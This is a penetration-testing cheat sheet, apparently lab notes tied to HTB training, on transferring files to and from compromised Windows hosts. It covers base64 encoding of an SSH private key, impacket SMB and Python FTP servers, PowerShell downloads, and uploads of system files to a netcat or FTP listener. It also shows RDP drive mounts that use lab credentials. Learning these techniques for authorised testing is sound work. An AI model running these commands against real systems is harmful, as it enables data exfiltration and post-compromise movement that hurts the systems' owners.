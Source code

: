 ```yaml
---
title: Windows File Transfer
tags: [download, upload, wget, curl, rdp, powershell]
tools: ['ftp', 'openssl', 'python', 'impacket-smb-server']
notes: "Various file transfer techniques for Windows/Active Directory"
---
```


# Windows File Transfer

## Download Operations

### PowerShell Base64 Encode & Decode

Windows Command Line utility (cmd.exe) has a maximum string length of  8,191 characters. Also, a web shell may error if you attempt to send  extremely large strings. 

**Encoding**

```bash
# Get file hash
md5sum id_rsa
4e301756a07ded0a2dd6953abf015278  id_rsa

# Encode
cat id_rsa |base64 -w 0;echo
LS0tLS1CR ---SNIP--- tLS0tLQo=
```

**Decoding**

```powershell
# Decode
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CR ---SNIP--- tLS0tLQo="))

# Check and match hash
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             4E301756A07DED0A2DD6953ABF015278
```

---

### SMB Downloads

**Create share with impacket:**

`sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`

**Mount the share:**

`net use n: \\192.168.1.10\share /user:test test`

---

### Python FTP Server

**Start server:**

`sudo python3 -m pyftpdlib --port 21`

**Grab file:**

`(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`

---

## Upload Operations

### PowerShell Base64 Encode & Decode

**Encode File Using PowerShell:**

```powershell
# Encode file
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

IyBDb3B5cm ---SNIP--- YWxob3N0DQo=
# Get file hash
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```

**Decode Base64 String in Linux:**

```bash
# Decode file
echo IyBDb3B5cm ---SNIP--- YWxob3N0DQo= | base64 -d > hosts

# Check and match hash
md5sum hosts 

3688374325b992def12793500307566d  hosts
```

---

### PowerShell Web Uploads Base64

**Start the server:**

`python3 -m uploadserver`

**Upload file:**

```powershell
# Encode | Send
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

Invoke-WebRequest -Uri http://192.168.1.10:8000/ -Method POST -Body $b64

# Catch with netcat and decode
nc -lvnp 8000

<base64> | base64 -d -w 0 > hosts
```

---

### Python FTP Uploads

**Start the server:**

`sudo python3 -m pyftpdlib --port 21 --write`

**PowerShell Upload:**

`(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`

**Create a Command File for the FTP Client to Upload a File**

```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.1.10

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

## Misc

### PowerShell Session File Transfer

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**          

```powershell
whoami
htb\administrator

hostname
DC01

Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

**Create a PowerShell Remoting Session to DATABASE01**

`$Session = New-PSSession -ComputerName DATABASE01`

**Copy samplefile.txt from our Localhost to the DATABASE01 Session** 

`Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

`Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`

------

### RDP

Connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

**Mounting a Linux Folder Using rdesktop**

`rdesktop 192.168.1.10 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files`

**Mounting a Linux Folder Using xfreerdp**

`xfreerdp3 /v:192.168.1.10 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`
